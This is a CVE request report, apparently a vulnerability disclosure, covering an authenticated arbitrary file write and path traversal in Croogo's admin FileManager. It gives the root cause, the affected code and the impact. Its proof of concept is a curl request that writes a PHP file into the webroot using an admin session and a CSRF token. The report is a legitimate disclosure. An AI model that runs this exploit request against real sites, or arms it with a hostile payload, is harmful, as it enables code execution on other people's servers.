


# CVE Request Report: Croogo Admin FileManager arbitrary file write / path traversal

## Vulnerability Topic

Croogo Admin FileManager arbitrary file write / path traversal due to incorrect editable-path configuration lookup.

## Vendor / Github repo

- Vendor / project: Croogo
- GitHub repository: `https://github.com/croogo/croogo`
- Issue: `https://github.com/croogo/croogo/issues/1008`

## Product Name

Croogo

## Release Version / Commit Hash / Affected Range

- Confirmed affected commit: `fc0648659dcb5790ba8a7429250dae492ca724ec`
- Affected range: not fully determined. Versions containing the vulnerable FileManager code path are likely affected.
- Fixed version: unknown / not confirmed.

## Vulnerability Type

Arbitrary file write / path traversal.

## CWE

- CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')
- CWE-73: External Control of File Name or Path

## Summary of Affection

Croogo's admin FileManager is intended to restrict editable files to configured editable paths such as `WWW_ROOT/assets`. The editable-path check reads the configuration with the wrong API, causing the configured path list not to be reliably enforced. An authenticated FileManager user can create or overwrite files outside the intended editable root. If the target path is web-accessible and PHP-executable, the issue can lead to code execution.

## Root Cause

`FileManager::isEditable()` uses `Configure::check('FileManager.editablePaths')` to obtain editable paths. `Configure::check()` returns a boolean indicating whether the configuration key exists; it does not return the configured list of paths. The boolean is then cast to an array and passed into `_isWithinPath()`, so the actual configured editable root is not reliably applied. The write endpoints later trust this flawed result.

## Attack Preconditions

- The attacker has a Croogo admin account or another role allowed to access admin FileManager actions.
- The attacker can obtain a valid CakePHP CSRF token for the authenticated request.
- The destination path is writable by the web server account.
- For PHP code execution, the destination path must be web-accessible and configured to execute PHP.

## Impact

An authenticated FileManager user can write attacker-controlled files outside the intended editable directory. This can overwrite application files, place arbitrary web-accessible content, or become PHP code execution if the target directory executes PHP files.

## Affected Code

- `FileManager/config/bootstrap.php:19-25`: `FileManager.editablePaths` configured as `[WWW_ROOT . 'assets']`.
- `FileManager/src/Utility/FileManager.php:193-202`: `isEditable()` uses `Configure::check('FileManager.editablePaths')` instead of reading the path list.
- `FileManager/src/Utility/FileManager.php:254-259`: `_isWithinPath()` performs the path comparison using the bad reference path input.
- `FileManager/src/Controller/Admin/FileManagerController.php:105-127`: `editFile()` writes attacker-controlled `content` to the requested `path`.
- `FileManager/src/Controller/Admin/FileManagerController.php:337-352`: `createFile()` writes `data['content']` to `$path . data['name']` without validating the final canonical target path.

## Proof of Concept

Create a benign proof file in the webroot:

```bash
curl -i \
  -b 'CAKEPHP=<admin-session-cookie>' \
  -H 'X-CSRF-Token: <valid-csrf-token>' \
  --data-urlencode 'name=croogo_poc.php' \
  --data-urlencode 'content=<?php echo "CROOGO_FILE_WRITE_POC"; ?>' \
  'https://croogo.example/admin/file-manager/file-manager/create-file?path=/var/www/croogo/webroot/'
```

Then request the created file:

```bash
curl 'https://croogo.example/croogo_poc.php'
```

Expected proof output:

```text
CROOGO_FILE_WRITE_POC
```

```bash
cd PoC
docker build -t croogo-filemanager-write-poc .
docker run --rm croogo-filemanager-write-poc
```

## Expected Result

The server should reject file creation or editing requests whose final canonical target path is outside the configured editable root.

## Actual Result

The request can create or overwrite a file outside the intended editable root when the destination is writable by the web server account.





## Credit

fa1c4 <azesinter@mail.ustc.edu.cn>

